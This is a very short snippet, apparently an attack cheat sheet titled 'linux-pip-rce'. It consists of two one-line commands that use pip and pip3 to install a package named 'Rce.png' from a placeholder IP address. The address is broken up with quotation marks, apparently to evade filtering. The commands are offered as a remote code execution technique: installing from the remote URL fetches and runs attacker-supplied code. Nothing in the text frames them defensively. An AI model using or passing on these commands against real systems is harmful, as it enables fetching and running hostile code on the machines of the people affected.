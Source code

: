 # linux-pip-rce

pip install "http://1"."2"."3"."4/Rce.png"
pip3 install "http://1"."2"."3"."4/Rce.png"
